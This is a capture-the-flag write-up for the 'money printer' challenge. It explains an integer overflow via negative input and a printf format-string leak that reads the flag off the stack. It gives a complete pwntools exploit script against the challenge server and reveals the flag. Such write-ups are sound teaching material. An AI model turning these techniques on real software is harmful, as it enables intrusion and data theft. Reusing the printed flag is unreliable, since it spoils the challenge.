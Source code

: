 ```yaml
---
description: Integer overflow and format string vulnerability
---
```


# money printer

## Problem

<details>

<summary>Description</summary>

The first step to getting rich is printing money

Connect via: `nc money.sdc.tf 1337`

</details>

## Solution

We're given a binary and the only function that is in our interest is the main function, let's decompiled and analyse it&#x20;

<figure><img src="../../../.gitbook/assets/image_2023-05-29_155146937.png" alt=""><figcaption><p>1st decompiled main segment</p></figcaption></figure>

In the snippet above, we see that the flag is being into a buffer variable within the stack

<figure><img src="../../../.gitbook/assets/image_2023-05-29_155417172.png" alt="" width="441"><figcaption><p>2nd decompiled main segment</p></figcaption></figure>

In this snippet, the program takes an integer input and as long as our input is under 100 and under the value of `money`. Basically this is an ATM-like machine where you take money and it records the current money you have and the money you have taken so far. Initially we're supplied a money amount of 100, but since the check only limits us to provide an input under 100, we can supply a negative value to overflow the Integer.

<figure><img src="../../../.gitbook/assets/image_2023-05-29_155446529.png" alt="" width="563"><figcaption><p>3rd decompiled main segment</p></figcaption></figure>

Here, on line 57 we noticed the program calls `printf` with our desire input without any format specifier. We can exploit this to read from the stack to leak the flag. However, code will only ran if the money we had taken is over 1000 while the money we had is only 100. This is where our Integer overflow will come to play, since `taken_money` is set to 0, we can provide a negative value for the Integer to overflow and set its value to the maximum and thus more than 1000 and satisfy the condition.

Next we need to leak the stack find the offset where our flag is located. Below I have supply the format string vuln to leak the various addresses/values off  the stack. We can also do some fuzzing script with the same script I use below with range starting from 1 to how far we wish to. In the leaked stack anything that starts with `\x7f` or has long series of `\xf` in them is possibly a address. However on the 10th index we see somewhat a hex value representing a string.&#x20;

<figure><img src="../../../.gitbook/assets/image_2023-05-29_181931063.png" alt=""><figcaption><p>leaking stack values</p></figcaption></figure>

We can try to `unhex` it and it is the start of the flag in reverse order, this is because the program in run in little endian. And we can continue this for the the next value, until we found that the flag is located in the 10th element until the 15th element in the stack.

<figure><img src="../../../.gitbook/assets/image_2023-05-29_181813143.png" alt=""><figcaption><p>unhexed 10th element</p></figcaption></figure>

{% code title="exploit.py" lineNumbers="true" fullWidth="false" %}
```python
#!user/bin/python3
from pwn import *

# =========================================================
#                          SETUP                         
# =========================================================
exe = './money-printer'
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'warn'

# =========================================================
#                         EXPLOITS
# =========================================================

flag = ""

for i in range(10, 16):
    try:
        # io = process(exe)
        io = remote('money.sdc.tf', 1337)
        # overwriting dollar variable
        io.sendlineafter(b'how many of them do you want?', b'-1')
        # format string vuln
        io.sendlineafter(b'to the audience?', f'%{i}$p'.encode())
        io.recvuntil(b'\n')
        leak = io.recvline()
        if not b'nil' in leak:
            print(f'stack at {i} :' + str(leak))
            try:
                hexform = unhex(leak.split()[3][2:].decode())
                flag += hexform.decode()[::-1]
                print('flag appended')
            except BaseException:
                pass
        io.close()
    except EOFError or UnicodeDecodeError:
        pass

print(f'{flag=}')
```
{% endcode %}

## Flag

> _**sdctf{d4mn\_y0u\_f0unD\_4\_Cr4zY\_4M0uN7\_0f\_M0n3y}**_
